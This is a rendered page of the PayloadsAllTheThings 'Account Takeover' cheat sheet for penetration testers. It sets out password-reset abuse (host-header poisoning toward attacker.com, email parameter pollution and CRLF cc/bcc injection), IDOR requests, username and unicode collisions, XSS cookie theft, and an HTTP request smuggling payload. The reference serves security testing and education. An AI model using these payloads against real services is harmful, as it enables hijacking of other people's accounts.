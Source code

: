 ```yaml
---
icon: file-lines
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PayloadAllTheThings - Account Takeover

## Account Takeover

> Account Takeover (ATO) is a significant threat in the cybersecurity landscape, involving unauthorized access to users' accounts through various attack vectors.

### Summary

* Password Reset Feature
  * Password Reset Token Leak via Referrer
  * Account Takeover Through Password Reset Poisoning
  * Password Reset via Email Parameter
  * IDOR on API Parameters
  * Weak Password Reset Token
  * Leaking Password Reset Token
  * Password Reset via Username Collision
  * Account Takeover Due To Unicode Normalization Issue
* Account Takeover via Web Vulnerabilities
  * Account Takeover via Cross Site Scripting
  * Account Takeover via HTTP Request Smuggling
  * Account Takeover via CSRF
* References

### Password Reset Feature

#### Password Reset Token Leak via Referrer

1. Request password reset to your email address
2. Click on the password reset link
3. Don't change password
4. Click any 3rd party websites(eg: Facebook, twitter)
5. Intercept the request in Burp Suite proxy
6. Check if the referer header is leaking password reset token.

#### Account Takeover Through Password Reset Poisoning

1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3.  Forward the request with the modified header

    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
4. Look for a password reset URL based on the _host header_ like : `https://attacker.com/reset-password.php?token=TOKEN`

#### Password Reset via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

#### IDOR on API Parameters

1. Attacker have to login with their account and go to the **Change password** feature.
2. Start the Burp Suite and Intercept the request
3.  Send it to the repeater tab and edit the parameters : User ID/email

    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

#### Weak Password Reset Token

The password reset token should be randomly generated and unique every time. Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

* Timestamp
* UserID
* Email of User
* Firstname and Lastname
* Date of Birth
* Cryptography
* Number only
* Small token sequence (<6 characters between \[A-Z,a-z,0-9])
* Token reuse
* Token expiration date

#### Leaking Password Reset Token

1. Trigger a password reset request using the API/UI for a specific email e.g: [test@mail.com](mailto:test@mail.com)
2. Inspect the server response and check for `resetToken`
3. Then use the token in an URL like `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

#### Password Reset via Username Collision

1. Register on the system with a username identical to the victim's username, but with white spaces inserted before and/or after the username. e.g: `"admin "`
2. Request a password reset with your malicious username.
3. Use the token sent to your email and reset the victim password.
4. Connect to the victim account with the new password.

The platform CTFd was vulnerable to this attack. See: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

#### Account Takeover Due To Unicode Normalization Issue

When processing user input involving unicode for case mapping or normalisation, unexpected behavior can occur.

* Victim account: `demo@gmail.com`
* Attacker account: `demⓞ@gmail.com`

[Unisub - is a tool that can suggest potential unicode characters that may be converted to a given character](https://github.com/tomnomnom/hacks/tree/master/unisub).

[Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/) can be used to find list of suitable unicode characters based on platform.

### Account Takeover via Web Vulnerabilities

#### Account Takeover via Cross Site Scripting

1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

#### Account Takeover via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.

1.  Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)

    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2.  Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:

    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3.  Final request could look like the following

    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```

Hackerone reports exploiting this bug

* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

#### Account Takeover via CSRF

1. Create a payload for the CSRF, e.g: "HTML form with auto submit for a password change"
2. Send the payload

#### Account Takeover via JWT

JSON Web Token might be used to authenticate an user.

* Edit the JWT with another User ID / Email
* Check for weak JWT signature

### References

* [$6,5k + $5k HTTP Request Smuggling mass account takeover - Slack + Zomato - Bug Bounty Reports Explained - August 30, 2020](https://www.youtube.com/watch?v=gzM4wWA7RFo)
* [10 Password Reset Flaws - Anugrah SR - September 16, 2020](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Broken Cryptography & Account Takeovers - Harsh Bothra - September 20, 2020](https://speakerdeck.com/harshbothra/broken-cryptography-and-account-takeovers?slide=28)
* [CTFd Account Takeover - NIST National Vulnerability Database - March 29, 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)
* [Hacking Grindr Accounts with Copy and Paste - Troy Hunt - October 3, 2020](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/)
